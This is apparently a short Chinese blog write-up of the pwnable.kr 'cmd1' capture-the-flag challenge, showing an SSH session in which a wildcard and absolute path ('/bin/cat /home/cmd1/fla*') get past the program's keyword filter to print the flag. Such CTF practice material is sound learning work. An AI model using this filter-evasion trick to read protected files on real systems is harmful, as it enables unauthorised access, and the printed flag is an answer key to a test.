

<!--yml
category: 未分类
date: 2022-04-26 14:29:29
-->

# PWN cmd1 [pwnable.kr]CTF writeup题解系列11_3riC5r的博客-CSDN博客

> 来源：[https://blog.csdn.net/fastergohome/article/details/103798952](https://blog.csdn.net/fastergohome/article/details/103798952)

太简单的一道题目了，直接给题解 




```
root@mypwn:/ctf/work/pwnable.kr# ssh cmd1@pwnable.kr -p2222
cmd1@pwnable.kr's password: 
 ____  __    __  ____    ____  ____   _        ___      __  _  ____  
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \ 
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    / 
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \ 
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87@gatech.edu
- IRC : irc.netgarage.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal
Last login: Wed Jan  1 20:02:21 2020 from 120.84.12.64
cmd1@prowl:~$ ./cmd1 '/bin/cat /home/cmd1/fla*'
mommy now I get what PATH environment is for :)
cmd1@prowl:~$ 
```